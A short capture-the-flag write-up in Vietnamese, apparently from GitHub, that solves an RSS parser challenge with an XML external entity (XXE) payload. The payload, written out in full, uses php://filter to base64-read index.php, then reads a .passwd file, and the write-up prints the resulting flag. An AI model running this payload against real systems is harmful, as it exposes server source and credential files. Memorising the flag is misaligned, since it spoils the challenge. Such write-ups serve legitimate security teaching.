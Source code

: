 ![image](https://github.com/user-attachments/assets/edd187e0-ff5e-4c17-b5b6-76b1b76c7a4d)![image](https://github.com/user-attachments/assets/15dab2ad-a314-4373-9e83-c7401a2bc889)

![image](https://github.com/user-attachments/assets/c45657ab-4df8-4f7d-9f91-c3a76b670d3f)

Sau khi thử khác nhiều payload thì kết luận cái placehold không chỉ để trưng =))

Phải dùng  
```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE rss [
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php"> 
]>
<rss version="2.0">

<channel>
  <title>W3Schools Home Page</title>
  <link>https://www.w3schools.com</link>
  <description>Free web building tutorials</description>
  <item>
    <title>&xxe;</title>
    <link>https://www.w3schools.com/xml/xml_rss.asp</link>
    <description>New RSS tutorial on W3Schools</description>
  </item>
  <item>
    <title>XML Tutorial</title>
    <link>https://www.w3schools.com/xml</link>
    <description>New XML tutorial on W3Schools</description>
  </item>
</channel>

</rss>
```
![image](https://github.com/user-attachments/assets/b2e622a5-188e-43ec-a0f0-205ae0f0f9ad)

![image](https://github.com/user-attachments/assets/3bd8516c-7db0-4233-897f-65163fc43d4e)

Giờ chỉ cần base64-decode là ta có thể đọc tệp index.php

![image](https://github.com/user-attachments/assets/d135ca2e-9e83-4b18-bd82-a7c5eb9fa31c)

![image](https://github.com/user-attachments/assets/a391d425-e0e2-4736-8d16-60b966c0d715)

=> flag ở trong file .passwd

Ta chỉ cần đọc file .passwd nữa là xong

![image](https://github.com/user-attachments/assets/d76dafdd-48c1-460c-bee2-09f24c390bf1)

![image](https://github.com/user-attachments/assets/9a857e5f-2bee-4da7-9992-b460834b972a)

![image](https://github.com/user-attachments/assets/f901bb1e-28a9-46f7-8296-8544a575828e)

=> c934fed17f1cac3045ddfeca34f332bc
